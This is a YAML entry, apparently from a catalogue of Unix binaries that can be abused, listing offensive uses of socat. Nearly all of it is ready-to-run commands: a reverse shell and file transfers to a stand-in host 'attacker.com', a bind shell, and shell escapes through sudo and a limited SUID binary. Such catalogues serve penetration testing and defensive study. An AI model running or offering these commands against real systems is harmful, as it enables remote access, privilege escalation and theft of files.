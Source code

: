 ```yaml
---
functions:
  shell:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        socat stdin exec:/bin/sh
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
  file-upload:
    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
  sudo:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        sudo socat stdin exec:/bin/sh
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
---
```

